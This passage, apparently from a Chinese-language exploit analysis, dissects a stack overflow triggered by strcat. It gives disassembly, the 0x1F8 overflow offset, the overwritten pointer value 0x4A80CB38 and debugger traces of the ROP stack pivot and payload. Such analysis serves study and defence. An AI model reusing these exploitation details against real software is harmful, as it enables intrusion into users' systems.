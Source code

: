 ```asm
.text:0808348C                 mov     [esi+1Ch], eax
.text:0808348F                 mov     dword ptr [esi+20h], offset sub_80833EF ; 注意这句 这个值被攻击了
.text:08083496                 mov     [esi+24h], esi
```

[StackExploitPre.EBP-0x68 + 20] = sub_80833EF; 我们找到了原始的这个值,这个值是80833EF，溢出后 这个值成了0x4A80CB38;我们现在来看看这个是怎么被溢出的

注意StackExploitPre.EBP-0x48的内容是我们需要攻击的,我们可以控制的是StackExploit的EBP后面的内容;那么溢出的距离的计算是怎么来的,就是StackExploitPre.EBP-0x48 - StackExploit.EBP = 0012E718 - 0x48 - 0012E4D8 =  0x1F8(这上面的地址是在一次调试中记录下的) 是个恒定的值;关于漏洞产生的原理应该是比较透彻了

```asm
            StackExploit    proc near
                add     eax, 10h
                push    eax ; UniqueName的数据;
                lea     eax, [ebp+108h+var_108];[ebp]
                push    eax ; 
                mov     [ebp+108h+var_108], 0
                call    strcat ; 溢出了;溢出前后EDI寄存器是没有变化的.  溢出 前后 [EDI+3C]的值
                        ; 都是EBP+0x1F8,所以溢出的时候 需要至少溢出0x1F8 这样[[EDI+3C]]的值就可以被控制
                pop     ecx
                pop     ecx
                lea     eax, [ebp+108h+var_108]
                push    eax
                mov     ecx, ebx  
```

#### 2.漏洞的Rop分析

​    上面我们已经分析出来溢出的原因,现在我们看下溢出后的Rop是怎么在弄的;正如前面所说的.Rop的首先被执行的代码如下图

```asm
.text:0808B116 pwn2            proc near 
.text:0808B300                 lea     ecx, [ebp+var_4]
.text:0808B303                 push    ecx
.text:0808B304                 push    ebx
.text:0808B305                 push    3
.text:0808B307                 push    eax
.text:0808B308                 call    dword ptr [eax] ; 这个eax是漏洞指针;shell code的地方 [eax] = icucnv36.4A80CB38
```

```asm
icucnv36!ucnv_toUChars_3_6+162:
4a80cb38 81c594070000     add     ebp,0x794
0:000> p
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a80cb3e esp=0012dd24 ebp=0012e4dc iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!ucnv_toUChars_3_6+168:
4a80cb3e c9               leave
0:000> t
eax=0012e6d0 ebx=00000000 ecx=0012dd44 edx=00000000 esi=01efc87c edi=0012e718
eip=4a80cb3f esp=0012e4e0 ebp=4c191dfd iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
icucnv36!ucnv_toUChars_3_6+169:
4a80cb3f c3               ret
0:000> dd 0012e4dc 
0012e4dc  4c191dfd 4a82a714 0c0c0c0c eea0a231
0012e4ec  9e597a21 be85f836 d9b51b89 4f231020
0012e4fc  129c759d b060d86c 7b3f6a02 695b1882
0012e50c  14f8b4ee e7fcbd58 9461c2d9 37cb4fc3
0012e51c  71d98fc4 838ae2d9 92a018b8 d605988c
0012e52c  68e0ee1b 1adddcc6 2764e27f 9986b82c
0012e53c  f19cac8f cd474665 bae940d2 deea884d
0012e54c  44ea6a5c 533148ef e6a74296 c1cab3e2
```